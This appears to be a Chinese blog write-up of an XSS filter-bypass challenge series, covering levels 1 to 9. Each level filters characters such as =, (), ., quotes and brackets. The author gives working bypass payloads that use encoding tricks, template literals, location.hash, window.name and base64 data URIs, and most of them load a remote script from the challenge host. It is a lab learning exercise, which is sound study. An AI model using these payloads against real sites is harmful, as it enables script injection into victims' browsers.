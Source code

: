 

# 独孤九剑

## 1.过滤=，()和，

Js能自动转换编码，于是用编码的`document.create`创建script标记并赋值绕过=，再用`${}`绕过括号

```
fay=document.createElement('SCRIPT');fay.src='http://xcao.vip/xss/alert.js';document.body.appendChild(fay);
```

```
document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js'
```

执行该代码就创建了一个满足要求的script标签，将其编码绕过再用`eval.call`执行，编码用进制转换或者unicode即可

```
<script>eval.call`${'\x66\x61\x79\x3D\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x28\x27\x53\x43\x52\x49\x50\x54\x27\x29\x3B\x66\x61\x79\x2E\x73\x72\x63\x3D\x27\x68\x74\x74\x70\x3A\x2F\x2F\x78\x63\x61\x6F\x2E\x76\x69\x70\x2F\x78\x73\x73\x2F\x61\x6C\x65\x72\x74\x2E\x6A\x73\x27\x3B\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x62\x6F\x64\x79\x2E\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x28\x66\x61\x79\x29\x3B'}`</script>
```


``是模板字符串，${}中的也是js代码。
如果不用eval执行的话可以用svg标签，但是要将代码先进行html实体编码再进行url编码。

```
<svg><script>%26%23x66%3B%26%23x61%3B%26%23x79%3B%26%23x3D%3B%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x63%3B%26%23x72%3B%26%23x65%3B%26%23x61%3B%26%23x74%3B%26%23x65%3B%26%23x45%3B%26%23x6C%3B%26%23x65%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x28%3B%26%23x27%3B%26%23x53%3B%26%23x43%3B%26%23x52%3B%26%23x49%3B%26%23x50%3B%26%23x54%3B%26%23x27%3B%26%23x29%3B%26%23x3B%3B%26%23x66%3B%26%23x61%3B%26%23x79%3B%26%23x2E%3B%26%23x73%3B%26%23x72%3B%26%23x63%3B%26%23x3D%3B%26%23x27%3B%26%23x68%3B%26%23x74%3B%26%23x74%3B%26%23x70%3B%26%23x3A%3B%26%23x2F%3B%26%23x2F%3B%26%23x78%3B%26%23x63%3B%26%23x61%3B%26%23x6F%3B%26%23x2E%3B%26%23x76%3B%26%23x69%3B%26%23x70%3B%26%23x2F%3B%26%23x78%3B%26%23x73%3B%26%23x73%3B%26%23x2F%3B%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x2E%3B%26%23x6A%3B%26%23x73%3B%26%23x27%3B%26%23x3B%3B%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x62%3B%26%23x6F%3B%26%23x64%3B%26%23x79%3B%26%23x2E%3B%26%23x61%3B%26%23x70%3B%26%23x70%3B%26%23x65%3B%26%23x6E%3B%26%23x64%3B%26%23x43%3B%26%23x68%3B%26%23x69%3B%26%23x6C%3B%26%23x64%3B%26%23x28%3B%26%23x66%3B%26%23x61%3B%26%23x79%3B%26%23x29%3B%26%23x3B%3B%26%23xA%3B</script></svg>
```
 
## 2.过滤=，()和.

依然可以用svg，也可以setTimeout,，setInterval也行，就是有点鬼畜。。

```
<script>setTimeout`\u0066\u0061\u0079\u003D\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074\u002E\u0063\u0072\u0065\u0061\u0074\u0065\u0045\u006C\u0065\u006D\u0065\u006E\u0074\u0028\u0027\u0053\u0043\u0052\u0049\u0050\u0054\u0027\u0029\u003B\u0066\u0061\u0079\u002E\u0073\u0072\u0063\u003D\u0027\u0068\u0074\u0074\u0070\u003A\u002F\u002F\u0078\u0063\u0061\u006F\u002E\u0076\u0069\u0070\u002F\u0078\u0073\u0073\u002F\u0061\u006C\u0065\u0072\u0074\u002E\u006A\u0073\u0027\u003B\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074\u002E\u0062\u006F\u0064\u0079\u002E\u0061\u0070\u0070\u0065\u006E\u0064\u0043\u0068\u0069\u006C\u0064\u0028\u0066\u0061\u0079\u0029\u003B`</script>
```

## 3.过滤().&#\# 

意味着不能用进制转换和html实体编码，用base64编码绕过

```
<iframe src="data:text/html;base64,PHNjcmlwdCBzcmM9J2h0dHA6Ly94Y2FvLnZpcC94c3MvYWxlcnQuanMnPjwvc2NyaXB0Pg==">
```

解码相当于

```
<iframe src="data:text/html,<script src='http://xcao.vip/xss/alert.js'></script>">
```

注意src中的`<script>`标签一定要`</script>`闭合,不闭合是无法执行的。

直接

```
<script src=http://xcao%252evip/xss/alert%252ejs></script>
```

经过浏览器一次解码，再js解码一次，可以绕过对点的过滤


## 4.过滤=().&#\

`Location.replace`加载JavaScript伪协议构造1里面的执行语句的编码结果，由于没有过滤url编码的%，所以用url编码，同样，url需要二次编码。过滤了点，用`location[‘replace’]`代替点。（另外伪协议中的内容）
如

```
<script>location['replace']`javascript:eval%2528alert%25281%2529%2529`</script>
```

。。测试发现不行，直接编码有问题，应该是分号导致eval中断，1里面第二个没有分号间隔的语句是可以的，点依然也用url二次编码

```
%3Cscript%3Elocation[%27replace%27]`javascript:eval%2528document%252ebody%252eappendChild%2528document%252ecreateElement%2528%2527script%2527%2529%2529%252esrc%253D%2527http%253A%252F%252Fxcao%252evip%252Fxss%252Falert%252ejs%2527%2529`%3C/script%3E
```

尝试用`location.hash.slice(1)`
`Locationg.hash`是取锚点的内容，而`Slice`表示从已有数组中返回选定元素，`slice(1)`去掉了第一个字符#取后面的内容。用`location.hash.substr(1)`有同样的效果
正常url访问是不会带锚点内容的，更改锚点内容也不会导致重新发起请求。

```
<script>location['replace']`javascript:eval%2528eval%2528location['hash']['slice']%25281%2529%2529%2529`</script>#document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js'
```

下面附上一些对eval的尝试：

```
[]['constructor']['constructor']`a${confirm(1)}`()  √
eval`${confirm(2)}`  √
<script>eval(location['hash']['slice'](1))</script>#confirm(2)  √
<script>eval.call`${location['hash']['slice'](1)}`</script>#confirm(1)  √
<script>eval `${location['hash']['slice'](1)}`</script>#confirm(1)  x
<script>new Function`a${location['hash']['slice'](1)}`</script>#confirm(1)  √
[]['constructor']['constructor']`a${location['hash']['slice'](1)}`()  √
eval.call`a${location['hash']['slice'](1)}`  √
eval['call']`${location['hash']['slice'](1)}`  √
eval`a${location['hash']['slice'](1)}`  x
call方法可以去调用其他对象中的其他方法。
New Function 也可以替换eval，区别在于eval的作用域为当前作用域，而new Function的作用域是全局作用域，参照以下：
https://www.cnblogs.com/zhangfengyang/p/5526024.html
[]['constructor']['constructor']也可作为替代eval的一种方法
```

## 5.过滤().&#\%

比三题多了个url编码的过滤
Iframe+base64编码依然适用， 
另外把对应域名转成ip地址再转10进制也可以访问
转换方法如下：
IP地址：47.112.188.203
         |   |   |   |   对应转为16进制
16进制：2F. 70 . BC . CB
再将2F70BCCB转为10进制：795917515
访问`http://795917515`就是访问`http://47.112.188.203`
无法加载他指定的地址（alert.js中间的点无法处理）

## 6.过滤=().&#\%

以第四题为基准，多过滤了%，即不能用url编码。用`${}`来替代括号的话在控制台是可以执行的，但是放在url栏执行却出了问题。有语法问题排查不出来。只能换方法试试。

用document.write写一个script标签然后把src内容放锚点。

```
<script>document['write']`<script ${location['hash']['slice']`1`}`</script>#/src='http://xcao.vip/test/alert.js'
```

控制台里可以看到确实请求成功了的。我觉得应该是执行顺序的问题导致实际上并不会弹窗。刚刚也尝试了一下外带。结果是并不能外带数据。所以虽然请求成功了，但是还是算是失败。

于是不用script标签，改用onerror，支持的标签包括img，audio，video，一个过滤了可以试试其他的

```
<script>document['write']`<img ${location['hash']['slice']`1`}`</script>#/src='x'onerror=with(document)body.appendChild(createElement('script')).src='http://xcao.vip/test/alert.js'//
```

或者用iframe标签

```
<script>document['write']`<iframe ${location['hash']['slice']`1`}`</script>#/src=‘data:text/html;base64,PHNjcmlwdCBzcmM9J2h0dHA6Ly94Y2FvLnZpcC94c3MvYWxlcnQuanMnPjwvc2NyaXB0Pg==‘//
```

或者还可以用new Function替换eval，通过atob转换base64代码为可执行代码再用new Function执行

```
<script>new Function`a${atob`ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKSkuc3JjPSdodHRwOi8veGNhby52aXAveHNzL2FsZXJ0LmpzJw==`}`</script>
```

## 7.过滤-().&\#%<>

回显的点改到了`<script>`标签内，过滤了两个尖括号以及各种符号，导致url，unicode等编码无效，由于在标签内，考虑直接执行代码创建欲加载的script标签。过滤了点所以代码无法直接执行，用6题的new Function+base64编码执行

```
new Function`a${atob`ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKSkuc3JjPSdodHRwOi8veGNhby52aXAveHNzL2FsZXJ0LmpzJw==`}`
```

不直接执行也可以用锚点

```
new Function`a${location['hash']['slice']`1`}`#document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js'
```

思路太局限了…本来想过用 []['constructor']['constructor'] 试试的。结果主观印象里后面必须带俩括号，括号又被过滤了就不知道咋整了。。结果看wp才想起来对哦可以用``替代括号。。麻了麻了

```
[]['constructor']['constructor']`a${location['hash']['slice']`1`}```#document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js'
```

不用给a赋值然后隔开再执行，直接给a这个就行了

## 8.过滤=().&%#\%<>’”[]

又多了[ ] ’ ”，很明显不能再用[‘’]代替方法了，锚点失效，就只剩new function+base64了。套用上题即可

Wp里还有个构造一个iframe标签的网站，用iframe中的name属性赋值给js中的name变量，就可以把payload放在iframe中用于执行语句。学习了

```
<iframe src="http://xcao.vip/test/xss8.php/?data=new Function`b${name}```" name="with(document)body.appendChild(createElement('script')).src='http://xcao.vip/xss/alert.js'"></iframe>
```

## 8.1过滤=().&%#<>’”{}

过滤了大括号放开[]即不能用`${}`包含执行语句
放开了[]意味着可以用方法，但是没了单引号双引号。
其实是可以用反引号代替的（应该叫反引号吧）

做不动了参考wp：
依然是利用JavaScript伪协议
给a赋值base64解码后的payload，然后用Java伪协议加载payload。

```
atob`ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPScveHNzL2FsZXJ0LmpzJz48L3NjcmlwdD4iKQ`;location[`replace`]`javascript:a`
```

但是他给的

## 8.2过滤=().&%#<>’”{}和Function
比8多一个function考一个替代。
Settimeout不知道为啥只有这两个括号在才能执行，猜测是换成反引号后前面两个反引号给闭合了导致语法错误…没啥方法，难搞

```
setTimeout(`${atob`ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKSkuc3JjPSdodHRwOi8veGNhby52aXAveHNzL2FsZXJ0LmpzJw==`}`,2000);
```

还是看wp去了
他用了open函数。

```
open`javascript:name//${atob`PGltZyBzcmM9eCBvbmVycm9yPXdpdGgob3BlbmVyLmRvY3VtZW 50KWJvZHkuYXBwZW5kQ2hpbGQoY3JlYXRlRWxlbWVudCgnc2NyaXB0JykpLnNyYz0naHR0cDovL3hjY W8udmlwL3hzcy9hbGVydC5qcyc+`}`
```

## 9.只剩了个=
…看wp，再感叹一下师傅的思路。自己总是没法汇总
`http://xcao.vip/test/xss913415426262.php?data=location=name`用location配合伪协议来执行。Payload放name里

```
<iframe src="http://xcao.vip/test/xss913415426262.php?data=location=name" name="javascript:new Function(document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js')"></iframe>
```


完结撒花，做这个之前只了解了一点xss的绕过技巧以及一些payload。没学过js的语法之类的。。所以在那些payload用不了的时候就变通不了了（麻了麻了），比如那个open函数替代，还有那个name属性之类的，同时脑子也转不过来，不熟练，考虑能用的姿势要考虑半天。不过我觉得这倒是一个好的思路，过滤一些字符再考虑能利用的姿势，刷下来倒是学到了蛮多。后面想弄一点关键词过滤然后整个合集，方便以后要用的时候查。

<a href='https://0xfay.github.io/public/image/独孤九剑.pdf'>这里是参考wp</a>
